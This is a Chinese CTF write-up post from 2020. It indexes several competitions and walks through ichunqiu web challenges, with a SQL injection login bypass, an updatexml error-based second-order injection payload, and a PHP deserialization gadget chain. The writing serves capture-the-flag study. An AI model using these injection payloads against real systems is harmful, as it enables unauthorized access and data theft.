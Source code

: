 ```yaml
---
title: 2020WriteUp 汇总 VOL 1
summary: ichunqiu新春战疫公益赛 && 安恒新春抗疫 && XCTF高校战疫 && CONFidenceCTF2020 && 数字中国虎符 && De1CTF2020 && 网鼎杯2020
featured-img: 2020-wp-vol1
layout: post
---
```


+ [ichunqiu新春战役公益赛](#ichunqiu新春战役公益赛)
+ [安恒新春抗疫](#安恒新春抗疫)
+ [XCTF高校战疫](#xctf高校战疫)
+ [CONFidenceCTF2020](#confidencectf2020)
+ [数字中国虎符](#数字中国虎符)
+ [De1CTF2020](#de1ctf2020)
+ [网鼎杯2020](#网鼎杯2020)

***

## ichunqiu新春战役公益赛

### DAY 1

### 简单的招聘系统

登录存在注入，`1'||id=1#`登录admin账号, admin账号处可查询用户key，二次注入(ichunqiu平台貌似限制了请求最大响应时间)

SQL为`INSERT INTO log(key, uname, profile) (SELECT key, uname, profile WHERE key='')`，通过修改普通用户的profile，用admin来查询，二次 + 报错注一下就行了

```
profile=123' and 1=(updatexml(1,mid(concat(0x25,(select flaaag from flag)),16,32),1)))#
```

***

### 简单上传

无过滤，不知道这题想干嘛

### babyphp

这题出的还行，但就是太刻意了，为了出题而出题，写了一堆莫名其妙的魔术方法，代码水平我也就不吐槽了

反序列化链：

```
UpdateHelper.__destruct
User.__toString
Info.update -> Info.__call
Info.CtrlCase.login  // argument可控
dbCtrl.login
```
